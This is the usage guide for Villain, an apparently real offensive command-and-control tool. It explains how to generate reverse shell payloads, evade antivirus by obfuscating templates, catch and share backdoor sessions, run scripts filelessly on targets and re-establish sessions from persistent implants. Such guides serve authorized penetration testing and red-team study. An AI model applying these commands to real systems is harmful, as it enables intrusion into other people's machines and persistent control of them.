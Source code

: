 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

[2022-11-30] [John Hammond](https://github.com/JohnHammond) showcased the tool in this incredible video -> [youtube.com/watch?v=pTUggbSCqA0](https://www.youtube.com/watch?v=pTUggbSCqA0)  
[2023-03-30] Latest release demo, made by me -> [youtube.com/watch?v=NqZEmBsLCvQ](https://www.youtube.com/watch?v=HR1KM8wrSV8)  

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)

## News

### 2023-08-03 Update log
- HoaxShell implants are now reusable as long as they were generated by the Villain instance you are trying to connect back to from the victim (Legit session data is saved on disk and is loaded into memory every time you start Villain on your machine). Villain will also re-establish a session if it receives beacons from it (e.g., because the payload is still running on a victim from a past session).
- You can use the new prompt command `flee` to exit Villain without terminating active sessions. That way, next time you start it, if there are alive beacons from victims, sessions will be re-established.
- The `--insecure` option was added which will allow sibling servers to connect to your instance without approval.
- Added a filter for random socket connections to Villain's TCP multi-listener that should prevent establishing junk sessions.
- Fixed an issue regarding the sessions table that could break because of junk TCP sessions.
- Added the `purge` prompt command to delete all session related metadata stored on disk.

### 2023-03-31 Update log
- The Payload Generator class was redesigned to work by dynamically engaging payload templates with a standard structure. This makes payload generation much easier and allows users to edit the default payload templates or add their own, according to their needs & tactics. As you'll notice, most of the default templates I've added for both Windows and Linux are designed to start as new processes.
- The stability and general functionality of the pseudo-shell prompt ("shell" command) has been significantly improved.
- The "upload" and "conptyshell" commands were added.
- A new chat feature was added (you can broadcast messages to all siblings by starting a command with "#").
- The "exec" command is also improved but still kind of unstable. Someday it's gonna be doing wonders. Have a little faith.


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest Villain release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Villain and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)  

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Usage examples:
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Villain with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV 
  evasion.

⚡Reverse TCP based shells are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Villain. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## Upload
Use the `upload` pseudo shell prompt command to transfer a file from your system into an active session. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server.

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage: 
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Inject
Use the `inject` pseudo shell prompt command to fileless exec a local script file over http against an active session. Files are executed by being http requested from the Http File Smuggler. The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).  

Usage: 
```
inject </path/to/local/file> 
```

## Flee
Use the `flee` prompt command to exit Villain without terminating any active sessions. If you start Villain again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.  

## Purge
Villain automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```

